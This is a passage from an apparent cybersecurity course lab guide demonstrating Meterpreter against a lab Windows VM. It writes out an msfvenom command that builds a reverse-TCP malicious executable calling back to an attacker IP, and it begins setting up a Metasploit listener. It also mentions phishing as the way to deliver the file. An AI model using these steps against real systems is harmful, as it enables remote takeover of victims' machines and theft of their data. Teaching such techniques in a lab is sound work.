   * Specifically, we will use commands to search for all JPG pictures in the vulnerable Windows host.

  * We will also gather system information, application information, and currently logged-on users.

Do not worry about the syntax of the specific payload or the tool that we used to create this payload, `msfvenom`. We will cover custom payloads in the next class.


#### Meterpreter Demonstration

1. First, we'll make a malicious custom payload in Kali Linux. 

  Run the following command. We will be covering the syntax of custom payloads in the next class: 

   - `msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.8 lport=4444 -f exe > hack.exe`

      - This command will create a malicious `hack.exe` file. 


  After the command is run, run `ls` to confirm that the malicious `hack.exe` file has been successfully created.

   ![MSF 1](Images/MSF_1.png)


2. Launch the DVW10 VM and confirm that the malware file is on the machine. 

   - Navigate to your Downloads folder and verify that `hack.exe` is inside. 

   - A major challenge is actually getting that malicious EXE file onto a victim's target machine. Typically, this is done via a phishing email or other social engineering tactic.

      For this demo, we will assume that this step has already taken place.

    - Don't click the file yet. 

3. Now we're going to use the Metasploit console on the Kali Linux machine to set up a listener. This listener will establish a connection between the two machines once the Windows user clicks the malicious payload.

    - Launch the Metasploit framework: 

      - Run `msfconsole`

    - Select an exploit module:  

      - Run `use exploit/multi/handler` 

         - This module is a TCP handler popular among security practitioners.
